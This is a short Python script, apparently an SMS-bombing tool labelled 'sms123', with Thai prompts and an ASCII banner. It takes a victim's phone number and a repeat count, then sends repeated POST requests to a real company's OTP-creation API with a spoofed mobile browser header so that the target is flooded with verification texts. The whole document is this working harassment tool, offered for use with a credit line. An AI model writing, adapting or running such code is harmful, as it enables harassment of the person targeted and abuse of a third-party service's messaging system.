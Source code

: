 # sms123 
print("""
      
░██████╗███╗░░░███╗░██████╗
██╔════╝████╗░████║██╔════╝
╚█████╗░██╔████╔██║╚█████╗░
░╚═══██╗██║╚██╔╝██║░╚═══██╗
██████╔╝██║░╚═╝░██║██████╔╝
╚═════╝░╚═╝░░░░░╚═╝╚═════╝░
        
""")

no = input(' เบอร์: ')
jml = int(input(' จำนวน: '))

heder = {'Host': 'api2.1112.com',
'content-length': '44',
'user-agent': 'Mozilla/5.0 (Linux; Android 5.1.1; A37fw) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Mobile Safari/537.36',
'accept-language': 'th-TH,th;q=0.9,en;q=0.8',
}
        
data = {"phonenumber": f"{no}","language":"th"}

print("\n[กำลังยิง]")
for i in range(jml):
      sec = requests.post('https://api2.1112.com/api/v1/otp/create', headers=heder, json=data)
      if 'eror' in sec.text:
           print(f'{i+1}. [+]ยิงสำเร็จ {no}')
      else:
           print(f'{i+1}. [+]ยิงสำเร็จ {no}')
      time.sleep(2.0)




#เครดิต พ'ชร'ล สุ'รบุ'ตร
